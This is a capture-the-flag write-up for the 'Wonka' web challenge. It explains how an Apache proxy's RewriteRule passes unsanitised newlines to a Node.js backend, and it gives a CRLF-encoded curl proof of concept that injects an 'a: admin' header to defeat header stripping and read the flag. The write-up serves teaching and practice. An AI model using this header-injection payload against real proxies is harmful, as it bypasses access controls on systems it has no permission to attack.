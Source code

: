 # **Wonka CTF Challenge Writeup: Header Injection via Path-Based Request Smuggling**

**Challenge URL**: `https://wonka.chal.cyberjousting.com`  
**Category**: Web Exploitation  
**Difficulty**: Medium    
**Flag**: byuctf{i_never_liked_w1lly_wonka}
---

## **Challenge Overview**
The challenge consists of a two-tier web application:
1. **Frontend**: Apache HTTP server (port `1337`)  
   - Proxies requests to `/name/<input>` to the backend.  
   - Strips all `A/a` headers using `RequestHeader unset`.  
2. **Backend**: Node.js/Express server (port `3000`)  
   - Returns the flag if the request contains the header `a: admin`.  
   - Otherwise, it echoes back a sanitized `name` parameter.

**Objective**: Retrieve the flag by bypassing the frontend's header stripping mechanism.

---

## **Vulnerability Analysis**
The key vulnerabilities are:
1. **Apache RewriteRule Misconfiguration**  
   - The `RewriteRule` forwards raw path input to the backend without sanitizing newlines (`\r\n`).  
   - This allows **HTTP header injection** via the path parameter.  

2. **Header Stripping Bypass**  
   - The `RequestHeader unset A/a` directive only removes headers from the original request, not those injected later.  

3. **Backend Trusts Raw Input**  
   - The Node.js backend processes the smuggled headers as part of the HTTP request.

---

## **Exploitation Steps**
### **Step 1: Crafting the Malicious Request**
To bypass the frontend’s header stripping, we inject a fake HTTP request inside the path parameter:
```
/name/test HTTP/1.1\r\n
Host: wonka.chal.cyberjousting.com\r\n
a: admin\r\n
\r\n
```
- Encoded in a `curl` command:
  ```bash
  curl -i "https://wonka.chal.cyberjousting.com/name/test%20HTTP/1.1%0d%0aHost:%20wonka.chal.cyberjousting.com%0d%0aa:%20admin%0d%0a%0d%0a"
  ```

### **Step 2: Why This Works**
1. The `%20` (space) and `%0d%0a` (CRLF) characters trick Apache into interpreting the path as a new HTTP request.  
2. The backend receives:
   ```
   GET /?name=test HTTP/1.1
   Host: wonka.chal.cyberjousting.com
   a: admin
   ```
3. Since the `a: admin` header is present, the backend returns the flag.

---

## **Proof of Concept (PoC)**
```bash
curl -i "https://wonka.chal.cyberjousting.com/name/test%20HTTP/1.1%0d%0aHost:%20wonka.chal.cyberjousting.com%0d%0aa:%20admin%0d%0a%0d%0a"
```
**Expected Output**:
```http
HTTP/2 200 OK
...
byuctf{i_never_liked_w1lly_wonka}
```

---
